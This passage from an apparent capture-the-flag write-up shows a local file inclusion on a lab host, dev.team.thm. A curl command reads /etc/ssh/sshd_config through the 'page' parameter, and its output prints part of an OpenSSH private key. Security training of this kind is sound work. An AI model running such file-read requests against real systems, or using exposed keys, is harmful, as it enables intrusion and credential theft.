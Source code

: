 
![devsubdomain](Screenshots/underdeveloped.png)

`http://dev.team.thm/script.php?page=teamshare.php`

![lfi](Screenshots/lfi.png)

Curl to victory!
```bash
curl http://dev.team.thm/script.php?page=/etc/ssh/sshd_config

...

#Dale id_rsa
#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
#NhAAAAAwEAAQAAAYEAng6KMTH3zm+6rqeQzn5HLBjgruB9k2rX/XdzCr6jvdFLJ+uH4ZVE
#NUkbi5WUOdR4ock4dFjk03X1bDshaisAFRJJkgUq1+zNJ+p96ZIEKtm93aYy3+YggliN/W
#oG+RPqP8P6/uflU0ftxkHE54H1Ll03HbN+0H4JM/InXvuz4U9Df09m99JYi6DVw5XGsaWK
#o9WqHhL5XS8lYu/fy5VAYOfJ0pyTh8IdhFUuAzfuC+fj0BcQ6ePFhxEF6WaNCSpK2v+qxP
#zMUILQdztr8WhURTxuaOQOIxQ2xJ+zWDKMiynzJ/lzwmI4EiOKj1/nh/w7I8rk6jBjaqAu
#k5xumOxPnyWAGiM0XOBSfgaU+eADcaGfwSF1a0gI8G/TtJfbcW33gnwZBVhc30uLG8JoKS
#xtA1J4yRazjEqK8hU8FUvowsGGls+trkxBYgceWwJFUudYjBq2NbX2glKz52vqFZdbAa1S
#0soiabHiuwd+3N/ygsSuDhOhKIg4MWH6VeJcSMIrAAAFkNt4pcTbeKXEAAAAB3NzaC1yc2
#EAAAGBAJ4OijEx985vuq6nkM5+RywY4K7gfZNq1/13cwq+o73RSyfrh+GVRDVJG4uVlDnU
#eKHJOHRY5NN19Ww7IWorABUSSZIFKtfszSfqfemSBCrZvd2mMt/mIIJYjf1qBvkT6j/D+v
#7n5VNH7cZBxOeB9S5dNx2zftB+CTPyJ177s+FPQ39PZvfSWIug1cOVxrGliqPVqh4S+V0v
#JWLv38uVQGDnydKck4fCHYRVLgM37gvn49AXEOnjxYcRBelmjQkqStr/qsT8zFCC0Hc7a/
#FoVEU8bmjkDiMUNsSfs1gyjIsp8yf5c8JiOBIjio9f54f8OyPK5OowY2qgLpOcbpjsT58l
#gBojNFzgUn4GlPngA3Ghn8EhdWtICPBv07SX23Ft94J8GQVYXN9LixvCaCksbQNSeMkWs4
```